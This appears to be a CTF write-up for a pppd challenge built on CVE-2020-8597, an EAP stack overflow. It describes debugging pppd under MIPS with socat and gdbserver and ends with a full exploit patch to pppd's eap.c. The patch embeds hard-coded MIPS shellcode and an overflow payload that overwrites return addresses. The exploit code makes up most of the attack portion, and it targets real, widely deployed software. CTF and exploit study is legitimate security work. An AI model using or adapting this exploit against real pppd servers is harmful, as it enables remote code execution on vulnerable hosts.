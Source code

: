 ## pppd
[中文](./README_zh.md) [English](./README.md)
This challenge is required to write 1 day exp of CVE-2020-8597
This cve itself is actually very simple, just a stack overflow
But the difficulty is to communicate with pppd and debug under the mips environment

Most of the teams did not find a way to communicate with pppd during the game, so I directly released the hint and used socat to communicate with pppd

Next is how to debug

First of all, the network is diabled by default

In /etc/init.d/S40network, delete all comments, then modify the start.sh script, delete -net none, add -redir tcp: 9999 :: 9999 -redir tcp: 4242 :: 4242, so Network is configured

Then modify /etc/inittab
change
```
ttyS0 :: sysinit: / pppd auth local lock defaultroute nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap lcp-max-configure 100
```
into
```
ttyS0 :: sysinit: / bin / sh
```

Then go to github to download a [gdbserver] (https://github.com/hugsy/gdb-static/blob/master/gdbserver-7.12-mips-be), repack a cpio, start it

After entering the system, you get a shell by default, and the system comes with a socat

carried out
```
socat pty,link=/dev/serial,raw tcp-listen:9999 &
/pppd /dev/serial 9600 local lock defaultroute 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap lcp-max-configure 100
```
Then execute the following command to get the pid of pppd
```
ps | grep pppd
```
Use gdbserver attach to pppd
```
./gdbserver --attach 0.0.0.0:4242 pid
```
Then use gdb-multiarch to connect to gdbserver

Then downloading a pppd source code, compile
execute
```
socat pty,link=/tmp/serial,rawer tcp:127.0.0.1:9999
pppd noauth local lock defaultroute debug nodetach /tmp/serial 9600 user notadmin password notpassword
```
now you can start debug and write the exp

following this [guide](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb66612),you can write the exp of this chall

exp patch is below
```
--- ppp-ppp-2.4.7/pppd/eap.c	2014-08-09 12:31:39.000000000 +0000
+++ ppp-poc/ppp-ppp-2.4.7/pppd/eap.c	2020-04-12 03:23:54.321773453 +0000
@@ -1385,8 +1385,46 @@
 			esp->es_usedpseudo = 2;
 		}
 #endif /* USE_SRP */
-		eap_send_response(esp, id, typenum, esp->es_client.ea_name,
-		    esp->es_client.ea_namelen);
+		//eap_send_response(esp, id, typenum, esp->es_client.ea_name,
+		//    esp->es_client.ea_namelen);
+#define PAY_LEN 256
+		char sc[PAY_LEN];
+		memset(sc, 'C', PAY_LEN);
+		int* shellcode = (int*)sc;
+		shellcode[0]=0x3c09616c;
+		shellcode[1]=0x3529662f;
+		shellcode[2]=0xafa9fff8;
+		shellcode[3]=0x2419ff98;
+		shellcode[4]=0x3204827;
+		shellcode[5]=0xafa9fffc;
+		shellcode[6]=0x27bdfff8;
+		shellcode[7]=0x3a02020;
+		shellcode[8]=0x2805ffff;
+		shellcode[9]=0x2806ffff;
+		shellcode[10]=0x34020fa5;
+		shellcode[11]=0x101010c;
+		shellcode[12]=0xafa2fffc;
+		shellcode[13]=0x8fa4fffc;
+		shellcode[14]=0x3c19ffb5;
+		shellcode[15]=0x3739c7fd;
+		shellcode[16]=0x3202827;
+		shellcode[17]=0x3c190101;
+		shellcode[18]=0x373901fe;
+		shellcode[19]=0x3c060101;
+		shellcode[20]=0x34c60101;
+		shellcode[21]=0x3263026;
+		shellcode[22]=0x34020fa3;
+		shellcode[23]=0x101010c;
+		shellcode[24]=0x3c05004a;
+		shellcode[25]=0x34a53800;
+		shellcode[26]=0x20460002;
+		shellcode[27]=0x3c190042;
+		shellcode[28]=0x37396698;
+		shellcode[29]=0x320f809;
+		shellcode[30]=0x0;
+		sc[PAY_LEN-1] = '\0';
+
+		eap_send_response(esp, id, typenum, shellcode, PAY_LEN);
 		break;

 	case EAPT_NOTIFICATION:
@@ -1452,8 +1490,21 @@
 		BZERO(secret, sizeof (secret));
 		MD5_Update(&mdContext, inp, vallen);
 		MD5_Final(hash, &mdContext);
-		eap_chap_response(esp, id, hash, esp->es_client.ea_name,
-		    esp->es_client.ea_namelen);
+		//eap_chap_response(esp, id, hash, esp->es_client.ea_name,
+		//    esp->es_client.ea_namelen);
+		char payload[1024];
+                memset(payload, 'A', 1023);
+                memset(payload, 'B', 0x2a0);
+		int *tpayload = (int*)(payload + 0x2a0 - 4);
+		//*tpayload = 0x040A0BC;
+		*tpayload = 0x4083FC;
+		//*(tpayload-1) = 0x043EF9C;
+		*(tpayload-1) = 0x43EF9C;
+		*(tpayload-5) = 0x4a7a0c-8;
+
+                payload [1023] = '\0';
+                eap_chap_response(esp, id, hash, payload, 1024);
+		exit(0);
 		break;

 #ifdef USE_SRP
```
